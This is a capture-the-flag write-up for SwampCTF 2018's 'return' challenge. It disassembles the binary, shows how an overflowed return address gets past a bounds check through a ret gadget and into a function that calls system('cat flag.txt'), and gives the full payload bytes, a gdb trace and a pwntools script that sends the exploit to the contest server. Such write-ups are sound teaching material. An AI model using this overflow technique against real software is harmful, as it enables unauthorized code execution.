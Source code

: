 #For return in swampctf 2018

This is how the program worked.
```
solomonbstoner@swjsUbuntu:~/Downloads$ ./return
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do: 
hello there
Oh no! Your actions are completely ineffective! The allip approaches and as it nears, you feel its musty breath and are paralyzed with fear. It gently caresses your cheek, and you turn and flee the dungeon, leaving the battle to be fought another day...
solomonbstoner@swjsUbuntu:~/Downloads$ 
```
The program reads only up to 50 bytes from your input. Any more than that will be ignored.


### Analysis of the program

This is the portion of the program that read our input and gave the following output. It is part of the `<doBattle>` function.
```
0x804852d:   e8 5e fe ff ff         	call 0x8048390 <read>  ;read(stdin, 0xffffced2, 50 chars)
0x8048532:   83 c4 10               	add esp, 0x10
0x8048535:   8d 45 da               	lea eax, dword [ ebp + 0xffffffda ]
0x8048538:   83 c0 2a               	add eax, 0x2a
0x804853b:   8b 00                  	mov eax, dword [ eax ]
0x804853d:   89 c2                  	mov edx, eax
0x804853f:   b8 95 85 04 08         	mov eax, 0x8048595
0x8048544:   39 c2                  	cmp edx, eax
0x8048546:   76 2b                  	jbe 0x8048573 <doBattle+0x78>
0x8048548:   83 ec 0c               	sub esp, 0xc
0x804854b:   68 4c 87 04 08         	push 0x804874c ; "Oh no! Your actions are completely ineffective! The allip approaches and as it nears, you feel its musty breath and are paralyzed with fear. It gently caresses your cheek, and you turn and flee the dungeon, leaving the battle to be fought another day..."
0x8048550:   e8 5b fe ff ff         	call 0x80483b0 <puts>
```

Something is very perculiar about...
```
0x804853f:   b8 95 85 04 08         	mov eax, 0x8048595
0x8048544:   39 c2                  	cmp edx, eax
0x8048546:   76 2b                  	jbe 0x8048573 <doBattle+0x78>
```
... in that it takes 4 bytes of our input located at `0xffffcefc` and compares it to the value `0x8048595`. If our input is lesser, then it essentially becomes the address to which `<doBattle>` returns after it ends.


This means we have very limited addresses that we can return to, and definitely cannot return to the stack (as it is in address `0xffffced2`). To overcome this problem, I put the return address to `0x8048372:   c3    	ret` from the `<_init>` function. Then we get to return to anywhere we want.

Shall we return to the stack to run a shellcode from there? Would have if I could have. The stack has NX bit set. 
```
solomonbstoner@swjsUbuntu:~/Downloads$ readelf -l return | grep -i "Stack"
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
```

Actually, I soon realised there was a function called `<slayTheBeast>`. In it contains these 2 instructions.
```
0x8048615:   68 ea 8a 04 08         	push 0x8048aea ; "cat flag.txt\n"
0x804861a:   e8 a1 fd ff ff         	call 0x80483c0 <system>
```
That is all we need to get a flag printed out; by calling `system("cat flag.txt")`.

### Winning this challenge

This is the format of my input:
```
<42 * 'a'>< 0x8048372 >< 0x8048615 >
```

Let's go for a test run:
```
solomonbstoner@swjsUbuntu:~/Downloads$ echo -e "\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x72\x83\x04\x08\x15\x86\x04\x08" > exploit\ for\ return

(gdb) run < exploit\ for\ return
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/solomonbstoner/Downloads/return < exploit\ for\ return
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do: 

Breakpoint 3, 0x0804852d in doBattle ()
=> 0x0804852d <doBattle+50>:	e8 5e fe ff ff	call   0x8048390 <read@plt>
(gdb) c
Continuing.

Breakpoint 2, 0x08048532 in doBattle ()
=> 0x08048532 <doBattle+55>:	83 c4 10	add    esp,0x10
(gdb) x/32x 0xffffced2
0xffffced2:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffcee2:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffcef2:	0x61616161	0x61616161	0x83726161	0x86150804
0xffffcf02:	0xcf200804	0x0000ffff	0x06370000	0xa000f7e1
0xffffcf12:	0xa000f7fa	0x0000f7fa	0x06370000	0x0001f7e1
0xffffcf22:	0xcfb40000	0xcfbcffff	0x0000ffff	0x00000000
0xffffcf32:	0x00000000	0xa0000000	0xdc04f7fa	0xd000f7ff
0xffffcf42:	0x0000f7ff	0xa0000000	0xa000f7fa	0x0000f7fa
(gdb) c
Continuing.

Breakpoint 5, 0x08048546 in doBattle ()
=> 0x08048546 <doBattle+75>:	76 2b	jbe    0x8048573 <doBattle+120>
(gdb) p/x $eax
$11 = 0x8048595
(gdb) p/x $edx
$12 = 0x8048372
(gdb) c
Continuing.
Your actions take the Allip by surprise, causing it to falter in its attack!  You notice a weakness in the beasts form and see a glimmer of how it might be defeated.

Breakpoint 4, 0x08048596 in doBattle ()
=> 0x08048596 <doBattle+155>:	c3	ret    
(gdb) x/2x $esp
0xffffcefc:	0x08048372	0x08048615
(gdb) ni
0x08048372 in _init ()
=> 0x08048372 <_init+34>:	c3	ret    
(gdb) 
0x08048615 in slayTheBeast ()
=> 0x08048615 <slayTheBeast+58>:	68 ea 8a 04 08	push   0x8048aea
(gdb) 
0x0804861a in slayTheBeast ()
=> 0x0804861a <slayTheBeast+63>:	e8 a1 fd ff ff	call   0x80483c0 <system@plt>
(gdb) 
cat: flag.txt: No such file or directory
```

It worked!!

So, I fed the input into the server, and I got the flag 
```
from pwn import *
shellcode ="\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x72\x83\x04\x08\x15\x86\x04\x08"
p = remote("chal1.swampctf.com", 1802)
print p.recvuntil("what you do:")
p.send(shellcode)
p.interactive()
```
```
solomonbstoner@swjsUbuntu:~/Downloads$ python return.py
[+] Opening connection to chal1.swampctf.com on port 1802: Done
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do:
[*] Switching to interactive mode
 
Your actions take the Allip by surprise, causing it to falter in its attack!  You notice a weakness in the beasts form and see a glimmer of how it might be defeated.
flag{f34r_n0t_th3_4nc13n7_R0pn1qu3}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to chal1.swampctf.com port 1802
```

END